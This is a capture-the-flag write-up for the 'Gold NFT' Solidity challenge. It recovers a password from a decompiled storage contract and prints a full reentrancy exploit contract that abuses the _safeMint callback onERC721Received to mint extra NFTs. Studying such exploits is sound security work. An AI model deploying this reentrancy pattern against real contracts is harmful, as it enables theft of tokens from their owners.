 # Gold NFT

## Challenge

We receive the contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {ERC721} from "lib/openzeppelin-contracts/contracts/token/ERC721/ERC721.sol";

interface IPassManager {
    function read(bytes32) external returns (bool);
}

contract GoldNFT is ERC721("GoldNFT", "GoldNFT") {
    uint lastTokenId;
    bool minted;

    function takeONEnft(bytes32 password) external {
        require(
            IPassManager(0xe43029d90B47Dd47611BAd91f24F87Bc9a03AEC2).read(
                password
            ),
            "wrong pass"
        );

        if (!minted) {
            lastTokenId++;
            _safeMint(msg.sender, lastTokenId);
            minted = true;
        } else revert("already minted");
    }
}
```

and our goal is to mint more than 10 NFTs.

## Solution

First we want to find out what the PassManager really does. So i took a look at the bytecode and decompile it using Paleoramix (the one included in etherscan). Then we get back:

```
# Palkeoramix decompiler. 

def read(bytes32 _currency) payable: 
  require calldata.size - 4 >=ΓÇ▓ 32
  require _currency == _currency
  return bool(stor[_currency])

#
#  Regular functions
#

def _fallback() payable: # default function
  revert

def set(bytes32 _param1, bool _param2) payable: 
  require calldata.size - 4 >=ΓÇ▓ 64
  require _param1 == _param1
  require _param2 == _param2
  require caller == 3
  stor[_param1] = _param2
```

I then tried to clean up the code so it's better understandable.

```

function read(bytes32 _currency) payable
{
  return bool(storage[_currency]);
}
  
function set(bytes32 _param1, bool _param2) payable
{
  require(caller == owner);
  storage[_param1] = _param2;
}
```

So the read functions checks if a certain storage slot has been set to something else then 0. So i looked at the contract creation in etherscan. There we can see that the storage slot at 0x23ee4bc3b6ce4736bb2c0004c972ddcbe5c9795964cdd6351dadba79a295f5fe was set to 1. So this is probably the password.

Then i wrote a attack script that exploits the reentrancy attack in _safeMint. The case is that with _safeMint we have to implement the on onERC721Received from which we can reenter. Then we just reenter until we got our 10 NFTs

```
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

import "./GoldNFT.sol";

contract exploiter {
    uint256 claims;
    GoldNFT NFT_contract;
    bytes32 password = 0x23ee4bc3b6ce4736bb2c0004c972ddcbe5c9795964cdd6351dadba79a295f5fe;
    uint256 target_claims = 10;
    address owner;
    uint256[] public tokenIds;

    constructor(address target_addr)
    {
        owner = msg.sender;
        claims = 0; 
        NFT_contract = GoldNFT(target_addr);
    }

    function attack() payable public
    {
        NFT_contract.takeONEnft(password);

        for (uint256 i = 0; i < target_claims; i++)
        {
            NFT_contract.transferFrom(address(this), owner, tokenIds[i]);
        }
    }

    function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data) external returns (bytes4)
    {
        tokenIds.push(tokenId);
        if (claims < target_claims)
        {
            claims += 1;
            NFT_contract.takeONEnft(password);
        }

        return this.onERC721Received.selector;
    }
}
```

The POC can be found in this folder. 